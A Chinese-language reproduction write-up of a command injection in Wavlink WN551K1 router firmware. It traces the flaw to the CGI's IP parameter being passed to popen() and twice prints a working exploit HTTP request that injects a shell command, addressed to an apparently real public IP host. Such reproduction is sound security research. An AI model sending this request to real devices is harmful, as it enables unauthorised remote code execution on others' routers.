


# WN551K1_command_injection复现


## 下载地址：
```
https://www.wavlink.com/en_us/firmware/details/32.html
```


## binwalk解压


mips 小端


---

# 根据exp复现
```
POST /cgi-bin/touchlist_sync.cgi?IP=;ls>./data.html HTTP/1.1
Host: 42.2.134.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Upgrade-Insecure-Requests: 1
```


# 静态分析
## 1.cgi-bin/touchlist_sync.cgi

先静态分析一下。
ghidra搜索了一下字符串IP





命令被拼接到popen处，会发生命令执行。


# 危险函数popen()

函数原型
```
FILE *popen(const char *command, const char *type);


示例：
char acStack_5b4[256];
strcpy(acStack_5b4, "ls");
FILE *pFVar6 = popen(acStack_5b4, "r");
```
popen("ls", "r") 将执行 ls 命令，并返回一个 FILE* 类型的指针 pFVar6，用于读取 ls 命令的输出。


---

fopen 函数的用途和 popen 不同。fopen 用于打开文件，以便读取或写入文件的内容，而 popen 用于执行命令并打开一个管道来与命令的输入或输出进行交互。


# 动态分析
---

## FirmAE模拟 
```
sudo ./run.sh -d Wavlink '/home/iot/Desktop/Wavlink/WN551K1/WN551K1,K2,K3-B-WAVLINK-WO-20210427-1087985'
```


# 模拟失败

他的利用方式比较简单，改包即可。在IP参数输入我们的命令，进行无回显的RCE.
```
POST /cgi-bin/touchlist_sync.cgi?IP=;ls>./data.html HTTP/1.1
Host: 42.2.134.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Upgrade-Insecure-Requests: 1
```
